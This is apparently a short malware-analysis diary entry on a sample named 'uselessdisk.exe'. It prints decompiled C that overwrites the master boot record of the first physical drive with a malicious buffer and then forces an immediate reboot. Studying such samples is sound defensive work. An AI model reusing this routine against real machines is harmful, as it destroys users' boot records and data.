 (extracted from main diary)

### uselessdisk.exe

I'm not done with it but here a summary of the important part :

```c
void k_writeToDiskShutdown(void)
{

k_createDataToWriteToDisk(&lpBuffer,&MBR_MALWARE,480);
fhandle = CreateFileA("\\\\.\\PHYSICALDRIVE0",0xc0000000,FILESHARE_CHANGE_MODIFY,0, 3,0,0);

if (fhandle == -1) {
    fhandle = 0x401159; // <- ???
    return;
  }
  DeviceIoControl(device,FSCTL_LOCK_VOLUME,0,0,0,0,&byteReturned, 0);
  WriteFile(device,&lpBuffer,512,&nbOfByteWritten,0);
  DeviceIoControl(device,0x9001c,0,0,0,0,&byteReturned,0);
  CloseHandle(device); // :D
  WinExec("shutdown -r -t 0",0);
  ExitProcess(-1); // but... why ? :)
}
```
